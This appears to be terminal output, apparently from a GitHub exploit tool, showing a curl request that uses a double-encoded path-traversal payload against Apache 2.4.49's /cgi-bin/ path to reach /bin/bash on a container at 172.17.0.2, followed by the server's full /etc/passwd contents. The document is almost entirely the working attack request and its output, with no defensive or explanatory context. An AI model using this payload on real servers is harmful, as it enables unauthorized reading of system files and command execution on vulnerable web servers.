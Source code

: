 ```
[*] Port: 80
[*] Path: /etc/passwd

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 172.17.0.2:80...
* Connected to 172.17.0.2 (172.17.0.2) port 80
* using HTTP/1.x
> POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash HTTP/1.1
> Host: 172.17.0.2
> User-Agent: curl/8.12.1
> Accept: */*
> Content-Type: text/plain
> Content-Length: 52
> 
} [52 bytes data]
* upload completely sent off: 52 bytes
< HTTP/1.1 200 OK
< Date: Thu, 15 May 2025 08:00:12 GMT
< Server: Apache/2.4.49 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
{ [1260 bytes data]

100  1305    0  1253  100    52   298k  12692 --:--:-- --:--:-- --:--:--  318k
* Connection #0 to host 172.17.0.2 left intact
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
punky:x:1001:1001:,,,:/home/punky:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:996:996:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:995:995:systemd Resolver:/:/usr/sbin/nologin
postfix:x:101:103::/var/spool/postfix:/usr/sbin/nologin
```
